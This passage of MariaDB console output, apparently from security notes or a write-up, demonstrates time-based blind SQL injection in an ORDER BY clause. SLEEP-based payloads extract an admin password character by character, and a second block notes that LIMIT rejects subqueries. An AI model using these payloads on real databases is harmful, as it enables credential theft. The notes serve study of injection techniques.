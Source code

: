 ```console
1 row in set (3.002 sec)

> # NOTE: case insensitive
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, 
    -> IF(MID((SELECT password FROM users WHERE username="admin"),1,1)="r", SLEEP(3), 1);
...
1 row in set (3.002 sec)

> # so use ASCII()
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, 
    -> IF(ASCII(MID((SELECT password FROM users WHERE username="admin"),1,1))=ASCII("R"), SLEEP(3), 1);
...
1 row in set (3.002 sec)

> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, 
    -> IF(ASCII(MID((SELECT password FROM users WHERE username="admin"),1,1))=ASCII("r"), SLEEP(3), 1);
...
1 row in set (0.001 sec)

> # or HEX(). There may be other methods as well.
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, 
    -> IF(HEX(MID((SELECT password FROM users WHERE username="admin"),1,1))=HEX("R"), SLEEP(3), 1);
...
1 row in set (3.002 sec)

> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, 
    -> IF(HEX(MID((SELECT password FROM users WHERE username="admin"),1,1))=HEX("r"), SLEEP(3), 1);
...
1 row in set (0.001 sec)
```

NG: SQLi with LIMIT clause.
We can not use a subquery in LIMIT clause:

```console
> # without SQLi payload query
> SELECT * FROM numbers WHERE user_id = 2 LIMIT 0,1;
+----+-----+----------+---------+-----------+---------------------+
| id | num | pipeline | user_id | processed | processed_date      |
+----+-----+----------+---------+-----------+---------------------+
|  4 | E   |          |       2 |         1 | 2023-12-11 04:19:25 |
+----+-----+----------+---------+-----------+---------------------+
1 row in set (0.001 sec)

> # NG because syntax error
> SELECT * FROM numbers WHERE user_id = 2 LIMIT (SELECT 0),1;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '(SELECT 0),1' at line 1

> # NG
> SELECT * FROM numbers WHERE user_id = 2 LIMIT 0,(SELECT 1);
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '(SELECT 1)' at line 1
```

